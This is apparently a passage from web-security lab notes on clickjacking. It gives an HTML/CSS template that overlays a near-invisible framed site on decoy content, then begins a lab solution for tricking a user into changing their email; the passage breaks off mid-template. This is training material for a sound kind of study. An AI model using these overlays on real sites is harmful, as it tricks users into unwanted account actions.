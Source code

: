 ```html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```



#### Clickjacking with form input data prefilled from a URL parameter

> This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.
>
> To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.
>
> You can log in to your own account using the following credentials: wiener:peter 

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Log in to the account on the target website.
                    </li>
                    <li>
                        <p>
                            Go to the exploit server and paste the following HTML template into the "Body" section:
                        </p>
                        <code class="code-scrollable">&lt;style&gt;
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;